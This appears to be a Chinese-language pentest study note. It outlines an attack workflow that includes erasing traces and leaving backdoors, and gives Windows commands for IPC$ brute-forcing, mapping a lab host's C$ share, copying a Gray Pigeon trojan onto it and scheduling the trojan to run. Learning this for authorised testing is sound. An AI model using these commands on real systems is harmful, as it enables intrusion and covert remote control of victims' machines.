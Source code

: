 ```yaml
---
title: 渗透测试简单流程
date: 2020-08-16
categories:
- PenTest
---
```

0. 获得授权(对方机构)

1. 信息收集

   * nslookup
   * whois

2. 扫描漏洞

   * nmap --> IP范围 端口 发布软件 什么网站 
   * scan port
   * 高级扫描: 如IIS漏洞  win2003-IIS6.0  win2008-IIS7.0
     * 扫描网站漏洞

3. 漏洞利用

4. 提权(shell环境, 桌面环境)

   ****

5. 毁尸灭迹

6. 留后门

   ****

7. 渗透测试报告

   

**手工测试端口号开放:**

> `telnet IP 端口号`

**445漏洞利用之IPC$**

1. scanport扫描445端口

2. 漏洞利用之IPC$：
   进行暴力破解：NTscan

3. `net use f: \\10.1.1.2\share 123.com /user:administrator`  把10.1.1.2的共享文件夹映射到本地F盘

   `net use f: /del` 删除映射

   `net use * /del` 删除全部映射

   `net use f: \\10.1.1.2\c$ 密码 /user:用户` 把10.1.1.2 的C盘映射成本地F盘

   `net use f: \\10.1.1.2\ipc$ 密码 /user:用户` 把10.1.1.2的空会话映射成本地F盘

* 以上命令行的驱动映射都是临时映射, 想要持久化映射则需要  `我的电脑右键-->映射网络驱动器-->登录时重新连接-->使用其他用户连接`

**暴力破解系统密码之445**

`net time \\10.1.1.2`(需要先映射IPC$)  -- 查看目标计算机的时间

`at \\10.1.1.2  时间 "c:\...\xxx.exe"`  设定计划任务

`at \\10.1.1.2`  查看目标的计划任务

4. 制作木马
   利用光盘上的灰鸽子软件

5. 植入木马（留后门）
   copy d:\heihei.exe \\10.1.1.2\c$

6. 设置计划任务自动执行木马：
   net time \\10.1.1.2
   at \\10.1.1.2 11:11 "c:\heihei.exe"

7. 等待肉鸡上线
